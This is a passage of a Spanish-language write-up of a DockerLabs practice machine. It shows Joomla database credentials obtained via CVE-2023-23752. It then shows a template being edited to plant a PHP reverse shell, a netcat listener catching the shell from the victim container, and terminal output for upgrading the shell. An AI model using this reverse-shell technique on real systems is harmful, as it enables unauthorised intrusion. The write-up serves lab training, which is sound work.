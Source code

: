 ```bash
DB password: lu************
DB name: joomla_db
DB prefix: umo54_
DB encryption: 0
```

Sin embargo, esto no lo podemos usar todavía, ya que el puerto 3306 no esta abierto en la máquina para que podamos acceder remotamente.

Por ello, nos enfocamos en la obtención de un RCE (Remote Code Execution) a traves de las plantillas que tiene disponibles la web:

![Desktop View](/20251027195044.webp){: width="972" height="589" .shadow}

Debido a que tenemos permisos para modificar las plantillas, podemos entablarnos una reverse shell indicando un script que se encargue de ello (ej: [pentestmonkey php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)):

![Desktop View](/20251027195154.webp){: width="972" height="589" .shadow}

Nos ponemos en escucha por el puerto 4444, y accedemos a una URL que no existe:

![Desktop View](/20251027195538.webp){: width="972" height="589" .shadow}

De esta manera, obtendremos la revershe shell en la maquina victima:

```bash
┌──(venv)─(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Candy/CVE-2023-23752]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 38140
Linux f558d5db82a1 6.16.8+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.16.8-1kali1 (2025-09-24) x86_64 x86_64 x86_64 GNU/Linux
 18:55:02 up 16:03,  0 user,  load average: 2.33, 1.89, 1.91
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Tratamos la tty para poder operar en una consola completamente interactiva:

```bash
$ script -c bash /dev/null
Script started, output log file is '/dev/null'.
www-data@f558d5db82a1:/$ ^Z
zsh: suspended  nc -nlvp 4444
                                                                                                                                                                                                                   
┌──(venv)─(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Candy/CVE-2023-23752]
└─$ stty raw -echo;fg             
[1]  + continued  nc -nlvp 4444
                               reset xtermwww-data@f558d5db82a1:/$ export TERM=xterm
www-data@f558d5db82a1:/$ export SHELL=bash
```
